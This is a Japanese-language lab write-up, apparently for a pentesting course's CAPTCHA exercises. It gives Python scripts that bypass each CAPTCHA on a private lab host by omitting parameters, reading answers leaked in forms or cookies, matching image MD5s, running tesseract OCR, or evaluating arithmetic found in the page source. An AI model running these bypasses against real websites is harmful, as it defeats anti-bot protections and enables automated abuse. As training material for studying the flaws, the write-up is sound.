

# <span style="color: blue;">Example 1</span>

これは論理的な欠陥のあるキャプチャ スクリプトです。基本的に、サーバーが無効なキャプチャを指すようにすると、スクリプトは適切にエスケープされず、任意の入力を必要とせずにアクセスできます。

   
<span style="color: red;">captcha=...</span>を 削除するだけで、サーバーから成功のフィードバックが得られます

# <span style="color: blue;">Example 2</span>
   
answerに答えが書いてある  


- スクリプトを使用する場合   
```python
import cookielib, urllib2, urllib
from bs4 import BeautifulSoup
import urllib
import webbrowser

url = "http://192.168.100.167/captcha/example2/"
r = urllib.urlopen(url).read()
#soup = BeautifulSoup(r,"lxml")
soup = BeautifulSoup(r,"html")

string = soup.find_all("input", limit=2)
string = str(string)

print string[80:-4]

url = url + "submit?captcha="+string+"&answer="+string+"&submit=Submit+Query" #Answer that the webpage sends to the server to validate, this way the process is automated

# you can also exploit this by placing both "captcha=" and "&answer=" with the same value 


# Open URL in a new tab
webbrowser.open_new_tab(url) # opens in default browser
```
   


# <span style="color: blue;">Example 3</span>
   
9行目に<span style="color: YellowGreen;">Cookie: captcha=X%60Wp%5EKJGNa;</span>の記述がある。デコードすれば答えになる。
     
     
- スクリプトを使用する場合
```python
import requests
import webbrowser

url = "http://192.168.100.167/captcha/example3/"
r = requests.get(url)
c = r.cookies # get the cookie 
v = c.items()

for value in v:
   s = str(value)
   string = s[13:-2]
print string

#url = url + "submit?captcha="+string+"&submit=Submit+Query" #Answer that the webpage sends to the server to validate.
url = url + "submit?captcha="+string+"&submit=Submit+Query" #Answer that the webpage sends to the server to validate.
r = requests.get(url,cookies=c) # send the request with the cookie set to the server
print r
```

# <span style="color: blue;">Example 4</span>
   
   
この演習ではトークンの失敗があります。基本的に、キャプチャを一度解決してページを更新すると、情報が何度も送信されます。これは、スクリプトを記述して同じ情報を複数回再送信し、キャプチャをスキップできることを意味します。

# <span style="color: blue;">Example 5</span>
これはデータベースの欠陥で、データベースには少量の画像があり、画像をダウンロードし、そのMD5チェックサムをチェックし、予め設定されたチェックサムテーブルと比較するスクリプトを実行することで悪用される可能性があるのです。

以下のスクリプトは概念実証で、画像を取得し、MD5チェックサムを行い、それを画面に表示し、サーバにリクエストを送り返しますが、ウェブブラウザでページを開きません。 サーバへのトラフィックをスニッフィングして、レスポンス（サーバからの返答で返されるhtmlコード）を見れば、動作を確認することができます。
```python
import http.cookiejar as cookielib, urllib.request
#import cookielib, urllib2, urllib
from lxml import etree
import requests

cj = cookielib.CookieJar()
opener = urllib.request.build_opener(urllib.request.HTTPCookieProcessor(cj))
page = opener.open("http://192.168.100.167/captcha/example5/")
page.addheaders = [('User-agent', 'Mozilla/5.0')]
reddit = etree.HTML(page.read())

for img in reddit.xpath('//img/@src'):
    print (img)
a = str(img)
resource = urllib.request.urlopen('http://192.168.100.167/captcha/example5/' + a)
output = open("file01.png","wb")
output.write(resource.read())
output.close()

#md5 hash th image file 

import hashlib
 
hasher = hashlib.md5()
with open('file01.png', 'rb') as afile:
    buf = afile.read()
    hasher.update(buf)
md5 = (hasher.hexdigest())
md5= str(md5) 
print (md5)

string = ""
#check if the md5 is = to the list already created.

if md5 == "FE9AC5CFB7B2438C900ED3E56C0E2CB0" : string = "0dayz"
elif md5 == "4c298cfa40e502fb644d9a5fdc9c6a11": string ="vulnerability"
elif md5 == "3761dd5bdb3dae4fc7ba3d5652b7bfc0": string = "security"
elif md5 == "4039a3ef7fc79e4adb60b43ac108d648": string = "admin"
elif md5== "93c985c35fa28eb819d91b5f55be7b65": string = "compromise"
elif md5== "3d0a2ab11fb9c59d19a9d95d56ea2e6d": string = "hacker"
elif md5 == "539746c4b3beae3e77773fa940d83d78": string = "petester"
elif md5 == "fe9ac5cfb7b2438c900ed3e56c0e2cb0" :string = "0dayz"
else:   print ("end")

print (""+string)

url = "http://192.168.100.167/captcha/example5/submit?captcha="+string+"&submit=Submit+Query" #Answer that the webpage sends to the server to validate.
r = requests.get(url, cookies=cj) # send the request with the cookie set to the server
print (r)
```


# <span style="color: blue;">Example 6</span>
この演習では、キャプチャを回避するために、テッセラクトのようなOCRツールを使用する必要があります。そのためには、画像をダウンロードし、次のコードでtesseractを実行するスクリプトを作成する必要があります： 'tesseract imagefile.png' これにより、captchaレスポンスのout.txtファイルが作成されます。
まず、tesseractをインストールします。
```
sudo apt-get install tesseract-ocr
```

```python
from PIL import Image
from urllib.error import *
from urllib.request import *
from urllib.parse import *
import subprocess
import urllib,  requests, re, json

def getpage():
    try:
        print("[+] Descargando Pagina");  
        site = urllib.request.urlopen("http://192.168.100.167/captcha/example6/")
        global cookie
        cookie = site.getheader('Set-Cookie')
        print("-----Cookie extraida: " + cookie);
        site_html = site.read().decode("utf-8")
        #print(site_html)
        global token
        #Obtener el token (10 numeros + . + 7 numeros
        token = re.findall('[(\\d+.\\d+)]{18}', site_html)
        print ("-----Token: " + token[0])
    except URLError as e:
        print ("*****Error: No puede descargar la pagina*****");

 
def getcaptcha():
    try:
        print("[+] Descargando Captcha"); 
        captchaurl = "http://192.168.100.167/captcha/example6/captcha.png?t="+token[0] 
        urlretrieve(captchaurl,'captcha.png')
    except URLError as e:
        print ("*****Error: No puede descargar la pagina*****");


def resizer():
 print("[+] Redimensionando...");
 im1 = Image.open("captcha.png")
 width, height = im1.size
 im2 = im1.resize((int(width*5), int(height*5)), Image.BICUBIC)
 im2.save("captcha1.png")

 
def tesseract():
    try:
        print("[+] Ejecutando Tesseract...");
        #Run Tesseract, -psm 8, tells Tesseract we are looking for a single word 
        #subprocess.call(['tesseract', 'captcha1.png', 'output', '-psm', '8'])
        subprocess.call(['tesseract', 'captcha1.png', 'output', '8'])
        f = open ("output.txt","r")
        global cvalue
  #Borra los espacios en blanco y las nuevas lineas de la salida Tesseract
        cvaluelines = f.read().replace(" ", "").split('\n')
        cvalue = cvaluelines[0]
        print("-----Captcha: " + cvalue); 
    except Exception as e:
        print ("Error: " + str(e))

  
def send():
    try:
        print("[+] Enviando peticion...");
        urlconcaptcha = "http://192.168.100.167/captcha/example6/submit?captcha="+str(cvalue)+"&Submit+Query"
        print("-----URL: " + urlconcaptcha);
        request = urllib.request.Request(urlconcaptcha,headers={'Cookie':cookie})
        f = urlopen(request)
        response = f.read().decode('utf-8')
        #print(response)
        exito = re.search('Success', response)
        if exito:
            print("-----Conseguido!")
        else:
            print ("-----Fallo!")
    except Exception as e:
        print ("Error: " + str(e))


print("[+] Inicio!");
#Descarga la página y la parsea
getpage();
#Descarga la imagen del captcha
getcaptcha();
#Redimensiona la imagen del captcha 
resizer();
#Usa Tesseract para analizar la imagen del captcha
tesseract();
#Envia la peticion al sitio con los datos del formulario y el captcha
send();
print("[+] Fin!");
```


# <span style="color: blue;">Example 7</span>
この例は、前の例と同じですが、キャプチャーは青い線を追加して、OCRの認識を難しくしています。
    
前回のスクリプトでは画像内のテキストを認識できない。そのため、青い線を削除する必要があります。そのために、コマンドで画像の閾値を変更します。   
```
comando: convert captcha1.png  -white-threshold 1% captcha2.png
```
resise関数の最後に、コマンドを追加する   
```
os.system('convert captcha1.png -white-threshold 1% captcha2.png')
```
冒頭の「import os」の追加と、urlのexample6をexample7に変更することを忘れない   
```python
from PIL import Image
from urllib.error import *
from urllib.request import *
from urllib.parse import *
import subprocess
import urllib,  requests, re, json
import os

def getpage():
    try:
        print("[+] Descargando Pagina");  
        site = urllib.request.urlopen("http://192.168.100.167/captcha/example7/")
        global cookie
        cookie = site.getheader('Set-Cookie')
        print("-----Cookie extraida: " + cookie);
        site_html = site.read().decode("utf-8")
        #print(site_html)
        global token
        #Obtener el token (10 numeros + . + 7 numeros
        token = re.findall('[(\\d+.\\d+)]{18}', site_html)
        print ("-----Token: " + token[0])
        #print ("-----Token: " + token)
    except URLError as e:
        print ("*****Error: No puede descargar la pagina*****");

 
def getcaptcha():
    try:
        print("[+] Descargando Captcha"); 
        captchaurl = "http://192.168.100.167/captcha/example7/captcha.png?t="+token[0] 
        urlretrieve(captchaurl,'captcha.png')
    except URLError as e:
        print ("*****Error: No puede descargar la pagina*****");


def resizer():
 print("[+] Redimensionando...");
 im1 = Image.open("captcha.png")
 width, height = im1.size
 im2 = im1.resize((int(width*5), int(height*5)), Image.BICUBIC)
 im2.save("captcha1.png")

os.system('convert captcha1.png -white-threshold 1% captcha2.png')
 
def tesseract():
    try:
        print("[+] Ejecutando Tesseract...");
        #Run Tesseract, -psm 8, tells Tesseract we are looking for a single word 
        #subprocess.call(['tesseract', 'captcha1.png', 'output', '-psm', '8'])
        subprocess.call(['tesseract', 'captcha1.png', 'output', '8'])
        f = open ("output.txt","r")
        global cvalue
  #Borra los espacios en blanco y las nuevas lineas de la salida Tesseract
        cvaluelines = f.read().replace(" ", "").split('\n')
        cvalue = cvaluelines[0]
        print("-----Captcha: " + cvalue); 
    except Exception as e:
        print ("Error: " + str(e))

  
def send():
    try:
        print("[+] Enviando peticion...");
        urlconcaptcha = "http://192.168.100.167/captcha/example7/submit?captcha="+str(cvalue)+"&Submit+Query"
        print("-----URL: " + urlconcaptcha);
        request = urllib.request.Request(urlconcaptcha,headers={'Cookie':cookie})
        f = urlopen(request)
        response = f.read().decode('utf-8')
        #print(response)
        exito = re.search('Success', response)
        if exito:
            print("-----Conseguido!")
        else:
            print ("-----Fallo!")
    except Exception as e:
        print ("Error: " + str(e))


print("[+] Inicio!");
#Descarga la página y la parsea
getpage();
#Descarga la imagen del captcha
getcaptcha();
#Redimensiona la imagen del captcha 
resizer();
#Usa Tesseract para analizar la imagen del captcha
tesseract();
#Envia la peticion al sitio con los datos del formulario y el captcha
send();
print("[+] Fin!");
```


# <span style="color: blue;">Example 8</span>
この演習は、これまでの例の別バージョンで、今回は画像をインプロードするものです。   
これを読みやすい形に変換するために、次のようにします。
```
 os.system('convert captcha1.png -white-threshold 20% captcha2.png')
 os.system('convert captcha2.png -implode -0.5 captcha3.png')
```

```python
from PIL import Image
from urllib.error import *
from urllib.request import *
from urllib.parse import *
import subprocess
import urllib,  requests, re, json
import os

def getpage():
    try:
        print("[+] Descargando Pagina");  
        site = urllib.request.urlopen("http://192.168.100.167/captcha/example7/")
        global cookie
        cookie = site.getheader('Set-Cookie')
        print("-----Cookie extraida: " + cookie);
        site_html = site.read().decode("utf-8")
        #print(site_html)
        global token
        #Obtener el token (10 numeros + . + 7 numeros
        token = re.findall('[(\\d+.\\d+)]{18}', site_html)
        print ("-----Token: " + token[0])
        #print ("-----Token: " + token)
    except URLError as e:
        print ("*****Error: No puede descargar la pagina*****");

 
def getcaptcha():
    try:
        print("[+] Descargando Captcha"); 
        captchaurl = "http://192.168.100.167/captcha/example7/captcha.png?t="+token[0] 
        urlretrieve(captchaurl,'captcha.png')
    except URLError as e:
        print ("*****Error: No puede descargar la pagina*****");

os.system('convert captcha1.png -white-threshold 20% captcha2.png')
os.system('convert captcha2.png -implode -0.5 captcha3.png')

def resizer():
 print("[+] Redimensionando...");
 im1 = Image.open("captcha.png")
 width, height = im1.size
 im2 = im1.resize((int(width*5), int(height*5)), Image.BICUBIC)
 im2.save("captcha1.png")

 
 
def tesseract():
    try:
        print("[+] Ejecutando Tesseract...");
        #Run Tesseract, -psm 8, tells Tesseract we are looking for a single word 
        #subprocess.call(['tesseract', 'captcha1.png', 'output', '-psm', '8'])
        subprocess.call(['tesseract', 'captcha1.png', 'output', '8'])
        f = open ("output.txt","r")
        global cvalue
  #Borra los espacios en blanco y las nuevas lineas de la salida Tesseract
        cvaluelines = f.read().replace(" ", "").split('\n')
        cvalue = cvaluelines[0]
        print("-----Captcha: " + cvalue); 
    except Exception as e:
        print ("Error: " + str(e))

  
def send():
    try:
        print("[+] Enviando peticion...");
        urlconcaptcha = "http://192.168.100.167/captcha/example7/submit?captcha="+str(cvalue)+"&Submit+Query"
        print("-----URL: " + urlconcaptcha);
        request = urllib.request.Request(urlconcaptcha,headers={'Cookie':cookie})
        f = urlopen(request)
        response = f.read().decode('utf-8')
        #print(response)
        exito = re.search('Success', response)
        if exito:
            print("-----Conseguido!")
        else:
            print ("-----Fallo!")
    except Exception as e:
        print ("Error: " + str(e))


print("[+] Inicio!");
#Descarga la página y la parsea
getpage();
#Descarga la imagen del captcha
getcaptcha();
#Redimensiona la imagen del captcha 
resizer();
#Usa Tesseract para analizar la imagen del captcha
tesseract();
#Envia la peticion al sitio con los datos del formulario y el captcha
send();
print("[+] Fin!");
```


# <span style="color: blue;">Example 9</span>
しかし、ソースコードを見ると、数値も演算子も画像ではなく、テキストで渡されていることがわかる。
そこで、ソースコードを読み込んで情報（数値や演算子）を抽出し、算術演算を行い、フォームに渡すスクリプトを作ればよいのです。   
```python
from PIL import Image
from urllib.error import *
from urllib.request import *
from urllib.parse import *
import subprocess
import urllib,  requests, re, os


print("[+] Descargando Pagina");  
site = urllib.request.urlopen("http://192.168.100.167/captcha/example9/")
global cookie
cookie = site.getheader('Set-Cookie')
print("-----Cookie extraida: " + cookie);
site_html = site.read().decode("utf-8")
#print(site_html)
global token
# Obtener el token (10 numeros + . + 7 numeros)
token = re.findall(r'(?:[0-9]|[0-9])+[\+\-\^\*]+(?:[0-9]|[0-9])', site_html)
print ("-----Token: " + token[0])
resultado=eval(token[0])
#print(resultado)
print("[+] Enviando peticion...");
urlconcaptcha = "http://192.168.100.167/captcha/example9/submit?captcha="+str(resultado)+"&Submit+Query"
print("-----URL: " + urlconcaptcha);
request = urllib.request.Request(urlconcaptcha,headers={'Cookie':cookie})
f = urlopen(request)
response = f.read().decode('utf-8')
#print(response)
exito = re.search('Success', response)
if exito:
    print("-----Conseguido!")
else:
    print ("-----Fallo!")

print("[+] Fin!");
```

